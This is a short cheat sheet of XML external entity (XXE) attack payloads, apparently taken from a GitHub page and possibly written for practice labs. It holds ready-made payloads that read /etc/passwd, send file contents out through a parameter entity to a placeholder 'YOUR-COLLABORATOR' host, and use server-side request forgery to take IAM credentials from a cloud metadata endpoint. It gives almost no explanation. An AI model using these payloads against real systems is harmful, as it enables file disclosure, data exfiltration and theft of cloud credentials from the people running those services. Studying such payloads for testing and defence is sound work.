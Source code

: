 ## retrieve data
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

`<!DOCTYPE foo [ <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://YOUR-COLLABORATOR?x=%file;'>"> %eval; %exfiltrate;  ]> `

## http request with data extrafiltration
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://YOUR-COLLABORATOR"> %xxe;]> <stockCheck><productId>1</productId><storeId>2</storeId></stockCheck>`

## server side request forgery via xxe
`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE aora [<!ENTITY xxe SYSTEM "http://TARGET/latest/meta-data/iam/security-credentials/admin">]><stockCheck><productId>&xxe;</productId><storeId> 1</storeId></stockCheck>`
